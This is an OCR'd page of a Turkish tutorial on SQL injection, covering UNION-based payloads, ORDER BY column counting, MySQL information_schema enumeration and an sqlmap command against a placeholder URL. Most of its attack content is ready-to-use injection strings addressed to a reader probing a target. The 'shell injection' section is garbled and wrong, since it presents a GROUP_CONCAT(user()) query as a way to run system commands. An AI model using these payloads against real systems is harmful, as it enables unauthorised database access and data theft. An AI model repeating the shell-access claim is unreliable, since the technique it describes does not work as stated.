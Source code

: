 
3. Advanced UNION-based SQL Injection
UNION-based SQL enjeksiyonu, genellikle sayfalarda belirli veritabanı bilgilerini sızdırmak için kullanılır. Bu yöntem, sonuçları birleştiren SQL UNION komutunu kullanarak veritabanı adını döndürebilir.
Örnek:
sql
```sql
' UNION SELECT database(), NULL, NULL-- -
```
Eğer sistemde birden fazla sütun varsa, bu sorgu veritabanı adını gösterir ve diğer sütunlar NULL olur. Bu tür saldırılarda sütun sayısını anlamak için aşağıdaki sorguları deneyebilirsin:
sql
```sql
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```

Bu şekilde her sütun sayısını artan sırayla kontrol edebilirsin. Hangi sorgunun hata vereceği, sistemdeki toplam sütun sayısını belirtir. Sonrasında doğru sütunu tespit ederek veritabanı adını alabilirsin.

4. MySQL Metadata Enjeksiyonu (İçsel Veritabanı Bilgisi)
Eğer hedef veritabanı MySQL kullanıyorsa, daha fazla bilgi edinmek için veritabanı metadata'larını (şematik yapılar, tablolara dair bilgiler) sorgulayabilirsin.
Veritabanı Adını Öğrenmek için:
sql
```sql
SELECT schema_name FROM information_schema.schemata;
```
Veritabanındaki Tablo Adlarını Öğrenmek için:
sql
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'test_db';
```
Bu sorgu, 'test_db' veritabanındaki tüm tablo adlarını döndürecektir.
Veritabanındaki Tablolardaki Kolonları Öğrenmek için:
sql
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';
```

5. SQL Injection ile Sisteme Komut İstemcisi Ekleme (Shell Injection)
Birçok zaman, SQL injection ile elde edilen verilerle sadece veritabanı adı veya tablo yapısını almak değil, sistem komutlarına erişim sağlamak da mümkündür. Eğer hedef sistemde komut satırı erişimi varsa, SQLi ile shell komutları çalıştırılabilir.
Linux Komutları ile Erişim Sağlamak:
sql
```sql
' UNION SELECT 1,2,3,4, GROUP_CONCAT(user()) FROM information_schema.tables--
```
Bu şekilde komut satırına geçerek, uzaktaki sunucuya erişim sağlayabilir, komutlar çalıştırabilirsin.

6. Automatikleştirilmiş Yöntemler
Bu tür testleri manuel olarak gerçekleştirmek bazen çok zaman alıcı olabilir. Bu yüzden aşağıdaki araçları kullanmak faydalıdır:
SQLmap:
SQLmap, yukarıda bahsedilen tüm SQL enjeksiyon tekniklerini otomatikleştirir. Veritabanı adını öğrenmek için şunları kullanabilirsin:
bash
```bash
sqlmap -u "https://example.com/index.php?id=1" --dbs --technique=BEUST
```
-u: Hedef URL
```sql
--dbs: Tüm veritabanlarını listele
```